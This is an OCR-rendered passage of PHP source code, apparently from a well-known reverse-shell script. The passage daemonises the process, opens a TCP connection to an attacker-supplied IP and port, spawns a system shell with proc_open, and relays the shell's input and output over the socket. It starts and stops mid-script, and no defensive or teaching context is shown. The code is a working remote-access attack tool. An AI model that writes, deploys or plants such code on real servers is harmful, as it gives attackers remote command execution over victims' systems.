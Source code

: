 ```php
	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
```
